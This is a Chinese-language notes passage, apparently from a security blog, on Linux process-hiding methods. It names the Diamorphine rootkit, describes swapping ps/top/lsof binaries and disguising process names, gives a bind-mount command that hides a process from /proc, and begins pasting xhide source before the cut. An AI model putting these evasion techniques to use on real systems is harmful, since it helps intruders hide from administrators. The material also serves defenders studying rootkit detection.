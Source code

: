 #### 内核级rootkit

内核级的rootkit也很多，这里简单推荐一个Diamorphine

#### 基于用户空间的进程隐藏手法之偷梁换柱型

通过替换系统中常见的进程查看工具（比如ps、top、lsof）的二进制程序，导致原先查看进程相关信息的工具（ps、top、lsof等）都被调包。

#### 基于用户空间的进程隐藏手法之HooK系统调用型

没看懂/(ㄒoㄒ)/~~

#### 基于用户空间的进程隐藏手法之伪造进程名型

在恶意代码中通过设置具有迷惑性的进程名字，以达到躲避管理员检查的目的。

#### 基于用户空间的进程隐藏手法之挂载覆盖型

利用mount —bind 将另外一个目录挂载覆盖至/proc/目录下指定进程ID的目录，我们知道ps、top等工具会读取/proc目录下获取进程信息，如果将进程ID的目录信息覆盖，则原来的进程信息将从ps的输出结果中隐匿。

比如进程id为42的进程信息：mount -o bind /empty/dir /proc/42

#### 最后贴一下Github上的xhide源代码：

```
#include <stdio.h>
#include <unistd.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <string.h>
#include <fcntl.h>
#include <pwd.h>
#include <grp.h>

void usage(char *progname);

int changeown (char *str)
{
	char user[256], *group;
	struct passwd *pwd;
	struct group *grp;

	uid_t uid;
	gid_t gid;

	memset(user, '\0', sizeof(user));
	strncpy(user, str, sizeof(user));

	for (group = user; *group; group++)
		if (*group == ':')
		{
			*group = '\0';
			group++;
			break;
		}

	if (pwd = getpwnam(user)) 
	{

		uid = pwd->pw_uid;
		gid = pwd->pw_gid;
	} else uid = (uid_t) atoi(user);

	if (*group)
		if (grp = getgrnam(group)) gid = grp->gr_gid;
		else gid = (gid_t) atoi(group);
```